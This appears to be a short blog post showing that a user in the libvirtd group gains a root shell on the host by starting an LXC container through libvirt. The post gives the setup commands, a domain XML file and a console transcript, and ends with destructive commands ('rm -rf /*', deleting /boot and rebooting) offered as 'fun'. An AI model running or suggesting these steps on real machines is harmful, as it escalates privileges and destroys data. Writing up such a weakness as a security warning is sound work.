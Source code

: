 ```yaml
---
layout: post
title: Docker Container Madness
---
```


Preamble:
{% highlight bash %}
  # apt-get install docker virt-manager
  # export LIBVIRT_DEFAULT_URI=lxc:///{% endhighlight %}

Create an unprivileged user:
```
  # useradd -G libvirtd user 
```
Save the following domXML template
```
  <domain type='lxc'>
	  <name>container</name>
	  <memory>102400</memory>
	  <os>
		  <type>exe</type>
		  <init>/bin/sh</init>
	  </os>
	  <devices>
		  <console type='pty'/>
	  </devices>
  </domain>
```
Import container into Libvirt:
```
  user@host:~$ virsh define container.xml
```
Start the container:
```
  user@host:~$ virsh start test
  user@host:~$ virsh console test
```
And now run bash shell:
```
  Connected to domain test
  Escape character is ^]
  
  # bash
  bash: groups: command not found
  /bin/lesspipe: 1: /bin/lesspipe: basename: not found
  /bin/lesspipe: 1: /bin/lesspipe: dirname: not found
  /bin/lesspipe: 295: [: =: unexpected operator
  Command 'dircolors' is available in '/usr/bin/dircolors'
  The command could not be located because '/usr/bin' is not included in the PATH environment variable.
  dircolors: command not found
  root@host:/# 
```
Huh? You now have root. What kind of messed up world is this? I can read/write to any file:

```
  root@host:/# rm -rf /*
```

Or alternatively have a bit of fun
```
  root@host:/# rm /boot/*; reboot;
```

Is it possible to be careful with Docker? It doesn't seem safe for mortals.
```
# docker version

Client version: 1.0.1
Client API version: 1.12
Go version (client): go1.2.1
Git commit (client): 990021a
Server version: 1.0.1
Server API version: 1.12
Go version (server): go1.2.1
Git commit (server): 990021a
```
